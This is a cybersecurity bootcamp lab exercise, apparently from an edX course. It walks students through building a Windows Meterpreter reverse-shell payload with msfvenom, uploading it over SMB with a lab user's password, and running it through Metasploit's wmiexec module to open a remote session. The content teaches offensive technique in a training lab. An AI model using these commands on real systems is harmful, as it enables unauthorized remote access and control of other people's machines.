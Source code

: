 ## Activity File: msfvenom

In this activity, you will create a custom payload with `msfvenom`, transfer it to the designated host, and then run it with WMI.  

⚠️ **Reminder:** Don't forget to save your findings, as you will add them to your Week 17 Homework!

### Instructions

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](../../Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](../../Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](../../Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](../../Images/multihandler.PNG)

    - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](../../Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:

    ![A screenshot depicts the results of the command.](../../Images/sessions.PNG)

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be opened.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](../../Images/sessionid.PNG)

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



